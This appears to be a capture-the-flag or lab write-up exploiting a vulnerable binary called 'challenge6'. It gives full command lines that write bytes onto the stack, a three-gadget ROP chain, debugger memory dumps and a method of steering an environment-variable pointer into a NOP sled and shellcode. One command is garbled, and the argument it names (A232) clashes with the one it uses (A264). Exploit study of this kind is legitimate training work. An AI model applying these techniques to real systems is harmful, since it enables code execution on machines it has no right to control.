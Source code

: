 # Challenge6
step 1:
source ./env_nightmare.sh
step 2:
Debugging:
radare2 -d ./challenge6 65535 A264 `python -c 'print "\x0c"'`44 `python -c 'print "\x88"'`45 `python -c 'print "\x04"'`46 `python -c 'print "\x08"'`47 `python -c 'print "\xd0"'`64 `python -c 'print "\x86"'`65 `python -c 'print "\x04"'`66 `python -c 'print "\x08"'`67 `python -c 'print "\x04"'`66 `python -c 'print "\x57"'`68 `python -c 'print "\x88"'`69 `python -c 'print "\x04"'`70 `python -c 'print "\x08"'`71

Without Debugging:
./challenge6 65535 `python -c ~264 `python -c 'print "\x0c"'`44 `python -c 'print "\x88"'`45 `python -c 'print "\x04"'`46 `python -c 'print "\x08"'`47 `python -c 'print "\xd0"'`64 `python -c 'print "\x86"'`65 `python -c 'print "\x04"'`66 `python -c 'print "\x08"'`67 `python -c 'print "\x04"'`66 `python -c 'print "\x57"'`68 `python -c 'print "\x88"'`69 `python -c 'print "\x04"'`70 `python -c 'print "\x08"'`71

Notes:

To exploit this application you have to create a shit ton of environment variables using env_nightmare.sh.
Once that is done the above command labeled "Without Debugging" uses a rop chain to successfully exploit
the target application. Bellow are the rop chains that are used in the order they are presented as command
line arguments:

first rop gadget:
0x0804880c      5b             pop ebx                                                       
0x0804880d      5e             pop esi                                                       
0x0804880e      5f             pop edi                                                       
0x0804880f      5d             pop ebp                                                       
0x08048810      c3             ret

this gadget clears the next 4 DWORDs from the stack since these dwords are touchy and used as counters and such.

second rop gadget:
0x080486d0      c2b800         ret 0xb8

This gadget is used to position us into the list of pointers to environment variables that are available to the 
vulnerable application. It essentially is esp + 184 bytes so we can clear unwanted data from stack and position
us in the list of environment variable pointers.

third rop gadget:
0x08048857      5b             pop ebx                                                       
0x08048858      5d             pop ebp                                                       
0x08048859      c3             ret

This is a standard rop gadget that clears two environment variables that are not our buffer from the stack. This
gadget does the final positioning to our environment variable that stores our shellcode.

Why debugging and without debugging?

The reason why there are two different variations of the exploit above is due to a weirdness in running the exploit
using the radare2 debugger and running the vulnerable app without the debugger. It seems that for some reason the 
list of environment variable changes when you are running in a debugger. Thats why the only thing that changes is
the first argument A232. To understand what this argument is used for you have to understand how environment variables
are stored on the stack. As mentioned above a series of pointers to each environment variable is stored on the stack like
shown below.

0xff7dfedc  0x000000100804880c  0xff7dffb8ff7dff74   ........t.}...}.
0xff7dfeec  0x080486d0ff7dff04  0xf7f2300008048857   ..}.....W....0..
0xff7dfefc  0xf7f85000f7f6e7ea  0xf7f2300000000000   .....P.......0..
0xff7dff0c  0x0000000000000000  0x9d03d47bcb909e6a   ........j...{...
0xff7dff1c  0x0000000000000000  0x0000001000000000   ................
0xff7dff2c  0x00000000080484a0  0xf7f6ecb0f7f742e0   .........B......
0xff7dff3c  0x00000010f7f85000  0x00000000080484a0   .P..............
0xff7dff4c  0x080485e2080484c1  0xff7dff7400000010   ............t.}.
0xff7dff5c  0x08048820080487b0  0xff7dff6cf7f6ecb0   .... .......l.}.
0xff7dff6c  0x00000010f7f85920  0xff7e25ebff7e25de    Y.......%~..%~.
0xff7dff7c  0xff7e25f6ff7e25f1  0xff7e25feff7e25fa   .%~..%~..%~..%~.
0xff7dff8c  0xff7e2606ff7e2602  0xff7e260eff7e260a   .&~..&~..&~..&~.
0xff7dff9c  0xff7e2616ff7e2612  0xff7e261eff7e261a   .&~..&~..&~..&~.
0xff7dffac  0xff7e2626ff7e2622  0xff7e264100000000   "&~.&&~.....A&~.
0xff7dffbc  0xff7e27aaff7e26ea  0xff7e292aff7e286a   .&~..'~.j(~.*)~.

if we choose say the one stored at 0xff7dffbc which is the environment variable stored at 0xff7e26ea then we see this:

[0x080487a9]> x/x 0xff7e26ea
0xff7e26ea  0x383935726176796d                       myvar598

So it is pointing to one of the environment variables we control called myvar598. The problem is we need that pointer to
instead of pointing to the environment variable name to instead point to our shellcode with our nopsled.so we need some 
way of modifying the pointer 0xff7e26ea to point somewhere into our buffer instead of at the name of the environment
variable. To do this all we need to do is modify the least significant byte 0xea. We can do this because we have write anywhere
access to the stack via our exploit. This is where the A232 (first argument) comes in. What we do now is since we know which
environment variable we want to modify to point to our shellcode all we do is overwrite the least significant byte with an
A (0x41). Then we end up getting 0xff7e2641 which if we look:

[0x080487a9]> x/x 0xff7e2641
0xff7e2641  0x9090909090909090                       ........

it gets us into the nopsled portion of our shellcode an bingo bobs your uncle tom! Now coming back to why we have two
different first arguments for when we run the app in the debugger and when we run the app without one it comes down to
a different number and ordering of our environment variables on the stack. It just so happens that is we run the exploit
with A232 we end up with a segmentation fault that looks like this in GDB:

Core was generated by `./challenge6 65535 A264 
                                               44 �45 4647 �64 �65 6667 66 W68 �69 7071'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xffcc1641 in ?? ()

Notice it crashed when trying to execute 0xffcc1641 which if you were paying attention is actutally the pointer to our
environment variable we are trying to execute with the ret from our 3rd rop gadget (hint: 0x41 as least significant byte).
lets see what gdb shows us of the core dump at that address:

(gdb) x/30x 0xffcc1641
0xffcc1641:	0x36880038	0x37040039	0x37080030	0x796d0031
0xffcc1651:	0x35726176	0x903d3939	0x90909090	0x90909090
0xffcc1661:	0x90909090	0x90909090	0x90909090	0x90909090
0xffcc1671:	0x90909090	0x90909090	0x90909090	0x90909090
0xffcc1681:	0x90909090	0x90909090	0x90909090	0x90909090
0xffcc1691:	0x90909090	0x90909090	0x90909090	0x90909090
0xffcc16a1:	0x90909090	0x90909090	0x90909090	0x90909090
0xffcc16b1:	0x90909090	0x90909090

Hmmm well thats interesting, we should be executing our nopsled but instead we are trying to execute 0x36880038 which is part
of some other environment variable. How do we fix this you might think? Well we could just change the A (0x41) part of the pointer
to something bigger so we end up further down the buffer where the environment variables are stored. All we have to do is consult
an ascii hex chart and choose the larger character value like in my case ~ (0x7E) which will almost guarantee that we will end up
in our nopsled every time like we can see below.

(gdb) x/30x 0xffcc167E
0xffcc167e:	0x90909090	0x90909090	0x90909090	0x90909090
0xffcc168e:	0x90909090	0x90909090	0x90909090	0x90909090
0xffcc169e:	0x90909090	0x90909090	0x90909090	0x90909090
0xffcc16ae:	0x90909090	0x90909090	0x90909090	0xefbb9090
0xffcc16be:	0xda41e029	0x2474d9cc	0xc9335af4	0xc2830eb1
0xffcc16ce:	0x115a3104	0xe2115a03	0x19eb431a	0xf18dc67d
0xffcc16de:	0xe5d88450	0x81a865c2	0x30611212	0x57f48c7b
0xffcc16ee:	0x9813b829	0xed3338cd

After changing the first argument now we can say for certain that our exploit will work without having access to a debugger on the system.

***Important Note***

Testing this exploit on a completely different system showed signs that even modifying the least significant byte does not always lead to
exploitation. So I recommend modifying the second least significant byte like the one shown below:

./challenge6 65535 `python -c 'print "\xff"'`265 `python -c 'print "\x0c"'`44 `python -c 'print "\x88"'`45 `python -c 'print "\x04"'`46 `python -c 'print "\x08"'`47 `python -c 'print "\xd0"'`64 `python -c 'print "\x86"'`65 `python -c 'print "\x04"'`66 `python -c 'print "\x08"'`67 `python -c 'print "\x04"'`66 `python -c 'print "\x57"'`68 `python -c 'print "\x88"'`69 `python -c 'print "\x04"'`70 `python -c 'print "\x08"'`71

this command worked on both systems I tested the exploit on about 3/4's of the time. If you get segmentation fault once or twice keep trying
it will eventually work. If not play around with the value being written and try changing from least significant byte to second least
significant byte.
